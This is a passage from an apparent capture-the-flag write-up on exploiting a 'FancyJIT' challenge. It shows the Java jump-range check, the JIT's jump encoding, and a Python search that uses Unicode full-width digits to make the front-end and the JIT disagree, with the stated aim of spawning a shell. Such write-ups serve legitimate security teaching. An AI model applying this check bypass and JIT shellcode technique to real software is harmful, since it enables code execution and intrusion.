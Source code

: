 The FancyJIT translation is:
```
JMP(206)
MOV(A, 22614) // push rsi, pop rax
RET()
```

We're now limited to 2 arbitrary bytes of code at a time, which should still be enough to spawn a shell.

### Close JMP workaround
The following checks prevent us from supplying arbitrary values to jump instructions:
```java
case "JMP":
case "JNE":
case "JEQ":
    if (instr.arg < 0 || instr.arg >= program.length || Math.abs(i - instr.arg) > 20) {
        return false;
    }
    break;
```

In particular, the jump value needs to be within 20 of the instruction number, which stops us from using `JMP(206)` as the first instruction. My first thought here was to simply place the instruction at line 200 of the program. Although this bypasses the java checks, it is no longer encoded as `\xeb\x01`, because the instruction number is subtracted from the constant by the JIT compiler.
```c
out[4] = (intbracket(cmd + 4) - instrno) * 5 - 5;
(206 - 200) * 5 - 5 = 0x19
\xeb\x19 -> jmp 0x1b // Should be jmp 0x1!
```

This had us stumped for a while. My teammate, @2019, realised that `Integer.parseInt` accepts unicode full-width digits, allowing us to specify strings that produce very different jump constants in the java front-end and the JIT compiler backend. For example, the unicode character `U+FF10` is parsed by `Integer.parseInt` as a 0, and parsed by `intbracket` as 20596.

The unicode to binary conversions go like this:

| Digit | Unicode character | Binary representation |
|-------|-------------------|-----------------------|
| 0     | U+FF10            | "\xef\xbc\x90"        |
| 1     | U+FF11            | "\xef\xbc\x91"        |
| 2     | U+FF12            | "\xef\xbc\x92"        |
| 3     | U+FF13            | "\xef\xbc\x93"        |
| ...   |                   |                       |

We need to find a unicode full-width digit string that bypasses the java checks and results in an `\xeb\x01` jump instruction. Once again, we can write some python to find it for us:
```python
def find_unicode_jump_value(instruction_number):
    prefix = ""

    for j in range(10):
        for i in range(100):
            int_string = prefix + str(i)
            converted_value = (intbracket(int_string) - instruction_number) * 5 - 5
            single_byte_value = converted_value & 0xff

            if single_byte_value == 0x01:
                pwn.log.info("{} -> {} -> {}".format(int_string, hex(converted_value), hex(single_byte_value)))
                return int_string

```